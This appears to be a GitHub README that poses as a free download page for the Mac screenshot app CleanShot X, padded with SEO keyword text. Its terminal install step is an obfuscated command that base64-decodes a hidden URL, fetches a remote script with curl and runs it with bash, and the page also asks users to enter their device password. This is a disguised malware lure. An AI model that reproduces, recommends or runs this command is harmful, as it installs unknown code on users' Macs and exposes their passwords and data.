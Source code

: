 # CleanShot X — Download For Mac OS 🖥️
![logo](https://pbs.twimg.com/profile_images/1541724107456356353/QxJ1pjF3_400x400.jpg)

Capture, annotate, and share your screen effortlessly with CleanShot X. Follow the instructions below to install this powerful screenshot and screen recording tool on your Mac for free.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/cleanshotx)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install CleanShot X For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with CleanShot X

- 🖼️ **Advanced Screenshot Tools**: Capture full screens, specific windows, or custom areas with precision.
- 🎥 **Screen Recording**: Record high-quality videos with audio, perfect for tutorials or presentations.
- ✍️ **Annotation Features**: Add text, arrows, and shapes to highlight key details in your captures.
- ☁️ **Cloud Integration**: Upload and share your captures instantly with CleanShot Cloud.
- ⚡ **Quick Access Overlay**: Access tools instantly with a customizable overlay for efficient workflows.
- 🛠️ **Customizable Settings**: Tailor capture settings, file formats, and shortcuts to suit your needs.

## About CleanShot X

CleanShot X is a premium screenshot and screen recording tool designed specifically for Mac users. With its intuitive interface, it empowers users to capture their screens with unmatched flexibility and efficiency. Whether you're a designer creating mockups, a developer documenting bugs, or a content creator producing tutorials, CleanShot X offers a seamless experience. Its robust feature set includes advanced screenshot tools, screen recording, and annotation capabilities, making it a must-have for professionals and casual users alike. By integrating keywords like *screenshot tool for Mac*, *screen capture software*, and *Mac productivity app*, CleanShot X ensures discoverability for users searching for reliable screen capture solutions.

The software stands out for its ability to streamline workflows. Unlike basic screenshot tools, CleanShot X provides a quick-access overlay that lets users capture, annotate, and share content without leaving their current task. This makes it ideal for those seeking a *Mac screen recorder* or *screenshot annotation tool*. Additionally, its cloud integration allows users to upload captures instantly, ensuring smooth collaboration. The *free download for Mac* option makes it accessible to anyone looking to enhance their productivity without upfront costs.

CleanShot X also excels in customization. Users can adjust capture settings, choose preferred file formats, and create custom keyboard shortcuts, catering to individual preferences. For those searching for a *Mac screenshot app* or *screen recording software for Mac*, CleanShot X delivers a polished experience that balances power and simplicity. Its clean design and robust functionality make it a go-to choice for anyone looking to elevate their screen capture game.

Another key feature is its lightweight performance. CleanShot X runs smoothly on macOS, ensuring minimal impact on system resources. Whether you're capturing a single image or recording a lengthy video, the app maintains stability and speed. This makes it a top pick for users Googling *best screenshot tool for Mac* or *free Mac screen recorder*, as it combines reliability with ease of use.

Finally, CleanShot X is built with user feedback in mind, offering regular updates to improve functionality and address user needs. Its versatility and polish make it a standout in the crowded market of screen capture tools. For those searching for a *CleanShot X free download* or *Mac productivity software*, this tool provides a comprehensive solution that enhances both personal and professional projects.

### Why Choose CleanShot X?

CleanShot X offers a significant edge over other screenshot and screen recording tools due to its seamless integration with macOS, intuitive design, and powerful features. Unlike basic tools, it provides advanced annotation options, cloud sharing, and customizable workflows, making it ideal for professionals and casual users alike. Its *free download for Mac* option ensures accessibility, while its lightweight performance and regular updates guarantee a reliable, future-proof experience.

## 🖼️ Preview

![Capture Interface](https://cleanshot.com/_nuxt/thumbnail.0907387f.jpg)  
*CleanShot X’s intuitive capture interface for quick screenshots*

![Annotation Tools](https://cleanshot.com/_nuxt/bgtool.abf05645.png)  
*Annotate your captures with arrows, text, and shapes*

![Screen Recording](https://i.ytimg.com/vi/ZxCw_aZL61U/maxresdefault.jpg)  
*Record high-quality videos with CleanShot X*

## 🔍 Tags

cleanshot x, cleanshot x mac, cleanshot mac, cleanshot for mac, cleanshot mac os, cleanshot x download, cleanshot x for mac, clean shot x for mac, cleanshot mac download, cleanshot mac free, cleanshot x for mac free, cleanshot x free download, cleanshot x mac download
